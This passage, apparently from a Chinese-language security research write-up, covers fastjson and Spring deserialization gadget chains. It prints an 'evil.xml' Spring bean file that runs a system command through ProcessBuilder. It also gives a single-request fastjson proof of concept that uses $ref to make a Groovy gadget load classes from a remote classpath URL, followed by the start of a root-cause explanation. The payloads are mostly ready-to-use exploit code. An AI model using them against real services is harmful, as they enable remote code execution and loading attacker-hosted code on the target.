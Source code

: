 evil.xml的内容:
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder">
  <constructor-arg>
    <list value-type="java.lang.String" >
       <value>cmd</value>
       <value>/c</value>
       <value>calc</value>
    </list>
  </constructor-arg>
  <property name="whatever" value="#{pb.start()}"/>
</bean>
</beans>
```

不需要要开启2333端口的数据库端口即可触发.

# 异常捕获
我们在groovy的gadgets中提到，需要将payload分两次发送，原因是创建CompilationFailedException的实例（创建过程参考ThrowableDeserializer#createException方法）之后为unit属性赋值时没有setUnit方法，直接抛出异常，json解析终止，后半部分的json不会被解析；那么有没有方法能放到一起发送可以正常解析的方法呢？答案是有的，利用fastjson的$ref的能力；poc如下:
```json
{
    "a": "{\"@type\": \"java.lang.Exception\",\"@type\": \"org.codehaus.groovy.control.CompilationFailedException\",\"unit\": {}}",
    "b": {
        "$ref": "$.a.a"
    },
    "c": "{\"@type\": \"org.codehaus.groovy.control.ProcessingUnit\",\"@type\": \"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit\",\"config\": {\"@type\": \"org.codehaus.groovy.control.CompilerConfiguration\",\"classpathList\": \"http://127.0.0.1:8090/\"}}",
    "d": {
        "$ref": "$.c.d"
    }
}
```
将原来payload中的两部分分别变成字符串,然后再通过$ref引用就可以.根因分析:

如果要解析的json中存在key为$ref的对象,则会先把$ref添加到ResolveTask并且在处理完json之后再来处理$ref:
